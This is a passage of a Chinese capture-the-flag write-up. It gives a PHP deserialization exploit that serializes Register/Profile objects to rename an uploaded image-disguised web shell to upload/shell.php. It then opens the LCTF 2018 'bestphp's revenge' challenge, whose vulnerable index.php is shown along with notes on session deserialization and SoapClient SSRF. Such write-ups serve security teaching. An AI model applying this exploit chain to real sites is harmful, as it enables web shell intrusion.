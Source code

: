 

![image-20220221145257621](https://img-blog.csdnimg.cn/img_convert/b1fe763d5f46639c9536902625a5621a.png)

先上传图片马，修改cookie，exp:

```
<?php
namespace app\web\controller;

class Register{
    public $checker;
    public $registed =0;
}
class Profile{
    public $checker =0 ;
    public $filename_tmp="./upload/cc551ab005b2e60fbdc88de809b2c4b1/364be8860e8d72b4358b5e88099a935a.png";
	public $upload_menu;
    public $filename="upload/shell.php";
    public $ext=1;
	public $img;
    public $except=array("index"=>"upload_img");
}
$a = new Register();
$a->checker = new Profile();
$a->checker->checker=0;
echo base64_encode(serialize($a));
```

# bestphp's revenge

- phpsession反序列化
- 原生类SoapClient打内网

挺有意思的一道题，index.php

```
<?php
highlight_file(__FILE__);
$b = 'implode';
call_user_func($_GET['f'], $_POST);
session_start();
if (isset($_GET['name'])) {
    $_SESSION['name'] = $_GET['name'];
}
var_dump($_SESSION);
$a = array(reset($_SESSION), 'welcome_to_the_lctf2018');
call_user_func($b, $a);
?>
```

flag.php
